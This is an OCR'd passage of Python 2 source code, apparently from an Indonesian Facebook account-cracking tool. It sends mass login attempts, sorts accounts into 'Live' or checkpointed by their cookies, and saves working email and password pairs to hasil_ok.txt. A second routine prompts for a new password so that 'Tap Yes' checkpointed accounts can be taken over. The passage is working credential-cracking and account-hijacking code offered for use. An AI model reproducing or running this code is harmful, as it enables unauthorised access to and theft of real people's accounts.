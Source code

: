 			login = ses_dev.post(url_post_+url_post, data=pay_dev, headers=header_mobile)
			log = login.cookies
			login_dev = log.get_dict()
			# print "===>",eml_dev,"|",san_dev
			if "c_user" in login_dev or "checkpointSecondaryButton" in login.text:
				if eml_dev in hasil_ok:
					pass
				else:
					print a+"\r{"+p+"Live"+a+"}"+h+" {:<15}\033[96;1m | \033[97;1m{}".format(eml_dev,san_dev)
					with open("hasil_ok.txt", "a") as hasil:
						hasil.write("[Live] "+ eml_dev + " | " + san_dev +"\n")
					hasil_ok.append(eml_dev)
					break
			elif "checkpoint" in login_dev:
				eml_dev = log.get_dict()["checkpoint"].split("%")[4].replace("3A", "")
				if len(iqbal_) == 2:
					if eml_dev in hasil_cp:
						pass
					else:
						__ttl__cp_(eml_dev, ttl, san_dev)
						break
				else:
					if eml_dev in hasil_cp:
						pass
					else:
						__cp__(eml_dev, san_dev)
						break
			else:
				continue
  except:
  	count_ -=1
  	crack_mobile(iqbal_, dev__)

tap_yes = []
def seting_pw_tap_yes():
	tap_yes.append("Dev")
	global pw_new
	while True:
		print garis
		pil_pw = raw_input(h+" ["+p+"?"+h+"]"+p+" Ubah Sandi Akun"+a+" Tap Yes"+k+" [y/n]"+h+": ")
		if pil_pw == "y" or pil_pw == "Y":
			pw_tap.append("IqbalDev")
			break
		elif "n" == pil_pw or "N" == pil_pw:
			pw_new = ""
			break
		else:
			pass

	if len(pw_tap) != 0:		
		while True:
			print garis
			print h+" ["+p+"@"+h+"]"+p+" Contoh: "+k+"anjing"
			pw_new = raw_input(h+" ["+p+"?"+h+"]"+p+" Masukkan sandi untuk ubah sandi Akun"+a+" Tap Yes"+h+": ")
			if len(pw_new) < 6:
				print m+" Minimal 6 Karakter.."
			else:
				break
